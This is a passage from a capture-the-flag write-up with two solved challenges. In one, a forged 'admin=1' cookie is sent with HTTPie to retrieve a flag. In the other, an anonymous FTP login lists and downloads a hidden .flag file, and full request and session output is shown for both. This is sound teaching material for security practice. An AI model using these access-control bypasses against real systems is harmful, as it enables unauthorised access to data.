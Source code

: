 Sending the same GET request, except with an `"admin"` cookie set to `1` gives the flag:

```
$ http -p hHbB ws-chall.umisc.info:2005/flag Cookie:admin=1
GET /flag HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: admin=1
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 24
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 23:02:27 GMT
ETag: W/"18-nRhz1ntYfuRePJpnNWiV57Dq8jM"
X-Powered-By: Express

MISCCTF{c00k13_1s_yUmMY}
```

---

# Hidden FTP (50pts) <a name="hidden-ftp"></a>

> There is a flag hidden in a file somewhere on this FTP server running on `ws-chall.umisc.info` on port `21`.
>
> Author: Joseph

## Solution

Using the Inetutils FTP client (comes installed with most Linux distributions), we attempt an anonymous login to the FTP server and list the files using `ls -a` to show hidden files:

```
$ ftp ws-chall.umisc.info 21
Connected to ws-chall.umisc.info.
220 MISC Is So Cool
Name (ws-chall.umisc.info:joseph): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    1 ftp      ftp          4096 Mar 08 22:13 .
drwxr-xr-x    1 ftp      ftp          4096 Mar 08 22:13 ..
-rw-r--r--    1 ftp      ftp            27 Mar 08 22:13 .flag
226 Directory send OK.
ftp> get .flag
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .flag (27 bytes).
226 Transfer complete.
27 bytes received in 0.000963 seconds (27.4 kbytes/s)
ftp> 221 Goodbye.

$ cat .flag
```